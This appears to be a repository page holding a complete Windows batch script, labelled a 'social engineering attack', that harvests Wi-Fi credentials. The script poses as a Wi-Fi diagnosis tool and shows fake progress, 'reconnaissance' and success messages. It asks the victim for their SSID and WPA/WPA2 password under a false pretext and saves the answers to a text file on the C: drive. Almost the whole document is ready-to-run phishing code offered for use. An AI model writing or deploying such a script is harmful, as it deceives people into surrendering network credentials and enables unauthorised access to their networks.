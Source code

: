 # Wlan_Credential_harvester-SET-
Just a Simple Social Engineering attack
@echo off
title WIFI Diagnosis
color 9f
echo WIFI Diagnosis will take just upto 2-3 min 
echo for Diagnosing your WIFI 
echo Press Enter to start Diagnosing your WIFI
pause > nul
cls
echo WIFI Status Analaysing.......
timeout 3 > nul
ipconfig/renew
cls
timeout 1 > nul
color 0c
echo Poor signal strength...
timeout 3 > nul
cls
color 9f
echo Diagnosing your WIFI........
timeout 4 > nul
echo Reauthentication required
timeout 2 > nul
echo.
echo.
echo Please enter your SSID and WIFI WPA/WPA2 password to ensure that you are the WIFI owner.
echo.
echo.
echo.
echo.
set /p ssid=S S I D  : 
echo off
set /p pass=Password : 
mkdir C:\Wlan_Credential
echo SSID=%ssid% Password=%pass% >C:\Wlan_Credential\WPAWPA2_Credential.txt
cls
timeout 2 > nul
echo Obtaining IP address.....
timeout 2 > nul
cls
echo Authenticating.......
timeout 4 > nul
cls
echo Authentication sucessful..........
timeout 3 > nul
cls
echo Attempting Reconnaissance test...............
timeout 2 > nul
cd C:\Windows\System32
tree
cd..
cd..
cls
echo Reconnaissance Scan Succesful.......
timeout 1 > nul
echo Sending Anti-WPA-bugging.................
color 0a
timeout 3 > nul
ipconfig/renew
ipconfig/renew
ipconfig/renew
cls
echo WIFI Diognosis results:
echo.
echo.
timeout 1 > nul
echo Debugging Results:
timeout 2 > nul
echo SUCESSFUL
timeout 1 > nul
echo WIFI run test:
timeout 2 > nul
echo SUCESSFUL
timeout 1 > nul
echo WIFI signal strength:
timeout 2 > nul
echo 72 mb/s
timeout 1 > nul
echo Overall results:
timeout 2 > nul
echo GOOD
timeout 1 > nul
echo Press enter to exit
pause > nul
exit
